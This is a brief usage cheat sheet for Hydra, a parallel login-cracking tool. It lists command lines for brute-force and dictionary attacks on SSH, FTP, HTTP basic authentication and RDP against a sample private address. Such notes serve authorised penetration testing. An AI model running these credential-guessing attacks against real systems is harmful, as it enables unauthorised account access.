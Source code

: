  Hydra  is a parallelized login cracker which supports numerous protocols to attack. New modules are easy to add, beside that, it is flexible and very fast.

**Note: ** Look into the man page for more options.

**Syntax:**
**Brute Force SSH**
	`hydra -L usernames.txt -P passwords.txt ssh://192.168.1.100`

**Dictionary Attack on FTP**
	`hydra -l admin -P passwords.txt ftp://192.168.1.100`

**Attack HTTP Basic Authentication**
	`hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-get /protected`

****Attack an RDP Service****
	`hydra -l user1 -P passwords.txt rdp://192.168.1.100`

